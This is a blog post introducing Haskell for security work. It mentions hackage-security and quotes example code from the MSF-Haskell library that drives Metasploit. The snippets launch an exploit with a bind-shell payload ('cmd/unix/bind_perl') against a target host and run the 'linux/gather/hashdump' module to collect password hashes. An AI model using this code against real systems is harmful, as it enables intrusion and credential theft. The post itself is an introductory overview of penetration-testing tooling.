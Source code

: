 ```yaml
---
layout: post
title: Security with Haskell
author: terceranexus6
image:
  feature: banners/header.jpg
tags: security haskell functional
---
```


From "*you are crazy*" to "*why even?*" are some of the things my friends in the computer science environment have told me when I started working with Haskell in general and security in particular. Answering in order, yes I'm crazy but not because of Haskell and well, there's a reason why I chose to use Haskell for security. First of all, functional programming *is the new black* and probably more and more apps will be build using it. Choosing a pure functional language for security is not that crazy. On the other hand, the mathematical approaching Haskell has is very useful in cryptography.

<img src="{{ site.url }}/assets/images/dev.to/tumblr_lpkxtmFtmp1qc8ie7o1_500.gif" style="display: block; margin: 0 auto;">

So, how can I use Haskell for auditoring security?

I'd like to point here to an specific library called [hackage-security](https://hackage.haskell.org/package/hackage-security) which, currently supports only index signing. As described in the wiki, *The library has two main entry points: [Hackage.Security.Client](https://hackage.haskell.org/package/hackage-security-0.5.3.0/docs/Hackage-Security-Client.html) is the main entry point for clients, and [Hackage.Security.Server](https://hackage.haskell.org/package/hackage-security-0.5.3.0/docs/Hackage-Security-Server.html) is the main entry point for servers*. It is worth a check.

Apart from this, there's also a repository in github called [MSF-Haskell](https://github.com/GaloisInc/msf-haskell) that allows performing Penetration testing with haskell. It also includes a script in haskell as an example, and the whole whitepaper, too. It's actually an implementation of the Metasploit API which makes developers able to write Haskell clients that communicate with the Metasploit server. For example, in the part of the example script, launches an example exploit against a target host.

```
launchExploit :: (LoudCxt s) => Host Attackable -> MSF s ()
launchExploit targetHost = do
  _ <- module_execute metasploitableModuleType metasploitableModuleName
      $ toObject
      $ Map.fromList
          [ ("RHOST",   toObject targetHost)
          , ("PAYLOAD", toObject metasploitablePayload)
          ]
  return ()
```

And we previously defined the payload itself:

```
metasploitablePayload = Payload "cmd/unix/bind_perl"
```

Or this part for grabbing password hashes:

```
gatherCredentials :: (LoudCxt s) => SessionId -> MSF s ()
gatherCredentials sessionId = do
  let modTyp = PostModuleType
      modNm = ModuleName "linux/gather/hashdump"

  r <- module_execute modTyp modNm
      $ toObject
      $ Map.fromList
          [ ("SESSION",   toObject sessionId)
          ]
  case r of
    (ExecJobId j) -> waitJob j
    _             -> return ()
```

To sum up, Haskell `could` be an option for `functional` scripting in security. `[Maybe](https://wiki.haskell.org/Maybe)` good_option, you know, just an option or nothing, haha functional joke, badum tss.

<img src="{{ site.url }}/assets/images/dev.to/Ba-dum-tish.png" style="display: block; margin: 0 auto;">

Anyway these are brand new type of attacks! even from a scratch, and not using API's implementations such as before described. Speaking about crypto, this [repo](https://github.com/mfourne/eccrypto.git) is interesting, as it handles elliptic curves encryption. Welp, I invite you all to take a look to [cryptography repos](https://hackage.haskell.org/packages/search?terms=cryptography) in the official Haskell web, as well as the security [repos](https://hackage.haskell.org/packages/search?terms=security). I'm still investigating, so if anyone is working on the same field here, please provide more info!

*Also written in: [https://dev.to/terceranexus6/security-with-haskell-3cio](https://dev.to/terceranexus6/security-with-haskell-3cio)*
